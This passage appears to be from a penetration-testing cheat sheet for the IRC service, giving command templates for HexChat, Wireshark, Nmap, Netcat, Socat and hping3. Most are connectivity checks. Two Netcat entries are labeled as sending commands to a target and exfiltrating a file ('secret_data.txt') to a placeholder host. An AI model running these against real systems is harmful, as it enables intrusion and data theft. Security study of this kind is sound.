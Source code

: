 ### [[HexChat]]
- **Connect to an IRC Server:**
	```bash
	/server -ssl <target_ip> 6697
	```

## Exploitation Tools

### [[Metasploit]]

### [[Wireshark]]
- **Wireshark Packet Capture:**
	```bash
	wireshark -i <interface> -f "tcp port 6667"
	```

### [[Nmap]]
- **Basic Nmap Scan:** Scan target on specified port to verify if service is on.
    ```bash
    nmap <target_ip> -p 6667
    ```

### [[NetCat]]
- **Netcat TCP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 6667
    ```
- **Netcat UDP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 6667 -u
    ```
- **Execute Commands:** Execute commands on target.
	```bash
	echo "<command>" | nc <target_ip> 6667
	```
- **Exfiltrate Data:** Exfiltrate data over specified port.
	```bash
	nc <target_ip> 6667 < secret_data.txt
	```

### [[SoCat Cheat Sheet]]
- **SoCat TCP Connect:** Simple tests to verify port service is running and responding.
	```bash
	socat - TCP:<target_ip>:6667
	```

### [[HPing3 Cheat Sheet]]
- **Send Packet:** Send TCP packet to the service. Use `-2` to send UDP packet.
    ```bash
    hping3 <target_ip> -p 6667
    ```
